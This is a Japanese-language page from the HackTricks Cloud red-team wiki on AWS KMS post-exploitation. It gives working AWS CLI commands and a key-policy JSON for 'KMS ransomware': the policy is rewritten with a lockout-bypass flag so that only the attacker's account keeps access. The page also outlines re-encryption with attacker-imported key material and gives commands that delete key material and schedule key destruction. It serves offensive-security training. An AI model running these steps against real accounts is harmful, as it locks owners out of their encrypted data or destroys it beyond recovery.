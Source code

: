 # AWS - KMS ポストエクスプロイテーション

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## KMS

詳細については、次を確認してください：

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### 情報の暗号化/復号化

{% hint style="success" %}
ファイル内のデータを復号化したい場合、そのファイルにはバイナリデータが含まれている必要があり、base64エンコードされたデータではありません。
{% endhint %}

* **対称**キーを使用して
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* **非対称**キーを使用する:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS ランサムウェア

KMS に特権アクセスを持つ攻撃者は、キーの KMS ポリシーを変更し、**自分のアカウントに対するアクセスを付与し**、正当なアカウントに付与されたアクセスを削除することができます。

その結果、正当なアカウントのユーザーは、これらのキーで暗号化されたサービスの情報にアクセスできなくなり、アカウントに対して簡単だが効果的なランサムウェアを作成します。

{% hint style="warning" %}
**AWS 管理キーはこの攻撃の影響を受けません**。影響を受けるのは**顧客管理キー**のみです。

また、パラメータ **`--bypass-policy-lockout-safety-check`** を使用する必要があることに注意してください（ウェブコンソールにこのオプションがないため、この攻撃は CLI からのみ可能です）。
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
注意してください。ポリシーを変更して外部アカウントにのみアクセスを許可した場合、その外部アカウントから**元のアカウントにアクセスを戻す新しいポリシーを設定しようとしても、できません**。
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### 一般的なKMSランサムウェア

#### グローバルKMSランサムウェア

グローバルKMSランサムウェアを実行する別の方法があり、以下の手順が含まれます：

* 攻撃者によってインポートされた**キー素材**を持つ新しい**キーを作成する**
* 新しいキーで以前のバージョンで暗号化された**古いデータを再暗号化する**
* **KMSキーを削除する**
* これで、元のキー素材を持つ攻撃者だけが暗号化されたデータを復号化できるようになります

### キーを破壊する
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
AWSは現在、**クロスアカウントからの前述のアクションの実行を防止しています：**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
